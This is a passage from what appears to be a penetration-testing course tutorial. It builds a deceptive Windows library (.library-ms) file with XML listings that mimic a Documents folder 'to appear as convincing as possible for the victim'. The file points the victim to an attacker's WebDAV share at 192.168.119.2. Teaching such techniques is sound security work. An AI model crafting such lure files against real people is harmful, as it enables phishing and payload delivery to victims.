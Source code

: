 ```
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
```

> Listing 14 - Configuration for Navigation Bar Pinning and Icon

Now, let's add the [*templateInfo*](https://docs.microsoft.com/en-us/windows/win32/shell/schema-library-templateinfo) tags, which contain the [*folderType*](https://docs.microsoft.com/en-us/windows/win32/shell/schema-library-foldertype) tags. These tags determine the columns and details that appear in Windows Explorer by default after opening the library. We'll need to specify a GUID that we can look up on the [*Microsoft documentation*](https://docs.microsoft.com/en-us/windows/win32/shell/schema-library-foldertype) webpage. For this example, we'll use the **Documents** GUID to appear as convincing as possible for the victim.

```
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
```

> Listing 15 - templateInfo and folderType tags

The next tag marks the beginning of the library locations section. In this section, we specify the storage location where our library file should point to. We'll begin by creating the [*searchConnectorDescriptionList*](https://docs.microsoft.com/en-us/windows/win32/shell/schema-library-searchconnectordescriptionlist), tag which contains a list of [*search connectors*](https://docs.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry) defined by \_[searchConnectorDescription\_](https://docs.microsoft.com/en-us/windows/win32/shell/schema-library-searchconnectordescription). Search connectors are used by library files to specify the connection settings to a remote location. We can specify one or more *searchConnectorDescription* elements inside the *searchConnectorDescriptionList* tags. For this example, we only specify one.

Inside the description of the search connector, we'll specify information and parameters for our WebDAV share. The first tag we'll add is the [*isDefaultSaveLocation*](https://docs.microsoft.com/en-us/windows/win32/search/search-schema-sconn-isdefaultsavelocation) tag with the value set to **true**. This tag determines the behavior of Windows Explorer when a user chooses to save an item. To use the default behavior and location, we'll set it to true. Next, we'll add the *isSupported* tag, which is not documented in the Microsoft Documentation webpage, and is used for compatibility. We can set it to **false**.

The most important tag is [*url*](https://docs.microsoft.com/en-us/windows/win32/search/search-schema-sconn-url),which we need to point to our previously created WebDAV share over HTTP. It is contained within the [*simpleLocation*](https://docs.microsoft.com/en-us/windows/win32/search/search-schema-sconn-simplelocation) tags, which we can use to specify the remote location in a more user-friendly way as the normal [*locationProvider*](https://docs.microsoft.com/en-us/windows/win32/search/search-schema-sconn-locationprovider) element.

```
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```
